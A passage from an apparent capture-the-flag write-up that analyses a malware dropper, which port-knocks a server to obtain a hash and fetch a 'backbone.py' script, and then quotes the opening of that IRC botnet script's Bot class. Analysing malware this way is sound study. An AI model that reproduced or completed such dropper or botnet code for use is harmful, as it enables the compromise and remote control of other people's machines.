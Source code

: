 The program seems to be the "interesting dropper" mentioned in the task description, it knocks on some ports on a server which results in the server giving it a unique hash which can then be used to download `backbone.py`.
The file is then ran with some additional arguments and the program cleans up.

To get the so called hash required to download the backbone script the actions had to be performed on a server that the remote server could directly connect to, so we could receive the hash value directly.

## Analyzing the botnet script
We fetched the backbone script and started analyzing it:
```py
#!/usr/bin/python
# -*- coding: utf-8 -*-

import socket
import sys
import time
import subprocess
import random
from manager import *
from attacks import *

class Bot(object):

	servidor = str()
	porta = int()
	canal = str()
	nickname = str()
	realname = str()
	hostname = str()
	ident = str()

	def __init__(self, servidor, porta, canal, nickname, realname, hostname, ident, prefer_ipv6=0):

		if prefer_ipv6:
			if servidor.split(":")[0].isdigit():
				self.servidor = servidor
				ipv6 = 1
			else:
				try:
					self.servidor = socket.getaddrinfo(servidor, None, socket.AF_INET6)[0][4][0]
					ipv6 = 1
				except:
					self.servidor = socket.gethostbyname(servidor)
					ipv6 = 0
		else:
			if servidor.split(".")[0].isdigit():
				self.servidor = servidor
				ipv6 = 0
			else:
				self.servidor = socket.gethostbyname(servidor)
				ipv6 = 0

		self.porta = porta
		self.canal = canal
		self.nickname = nickname
		self.realname = realname
		self.hostname = hostname
		self.ident = ident
		self.authorized = {}
		self.temp = {}
		self.connect(ipv6)
		self.interage()
```